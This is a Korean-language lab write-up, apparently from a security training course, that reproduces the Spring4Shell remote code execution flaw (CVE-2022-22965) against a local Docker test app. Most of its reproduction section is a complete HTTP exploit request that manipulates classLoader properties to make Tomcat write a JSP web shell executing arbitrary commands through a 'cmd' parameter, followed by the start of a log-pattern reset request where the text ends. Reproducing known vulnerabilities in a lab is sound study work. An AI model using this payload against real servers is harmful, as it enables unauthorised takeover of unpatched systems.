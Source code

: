 # Spring Framework Data Binding Remote Code Execution on JDK 9+ (CVE-2022-22965)

> 화이트햇 스쿨 3기 - [이호영 (@lhywk)](https://github.com/lhywk)

<br/>

### 요약

- `Spring Framework`의 `Data Binding` 기능을 악용하면, RCE가 가능함  
- 특정 HTTP 파라미터를 조작하여 공격자가 임의의 `.jsp` 웹쉘을 서버에 업로드할 수 있음  
- 업로드된 웹쉘을 통해 서버 내부 명령어 실행 및 시스템 권한 탈취 시도가 가능함  
- 해당 취약점은 `Spring Framework 5.3.17` 및 `JDK 9+` 환경에서 발생

<br/>

### 환경 구성

- `docker-compose up -d` 명령어로 테스트 환경 실행  
- `http://localhost:8080/` 접속하여 Spring 앱 정상 동작 확인

<br/>

### 취약점 재현

- Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보낸다.
- GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


![Burp PoC Upload](./result1.png)

- `class.module.classLoader.resources.context.parent.pipeline.first.pattern` 등의 속성을 조작하여 웹쉘 JSP 파일 생성
- JSP 경로는 `/tomcatwar.jsp`



- JSP 웹쉘이 너무 커지는 것을 방지하기 위해 로그 경로 초기화 필요
- 아래 요청을 통해 `pattern` 속성 제거:

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
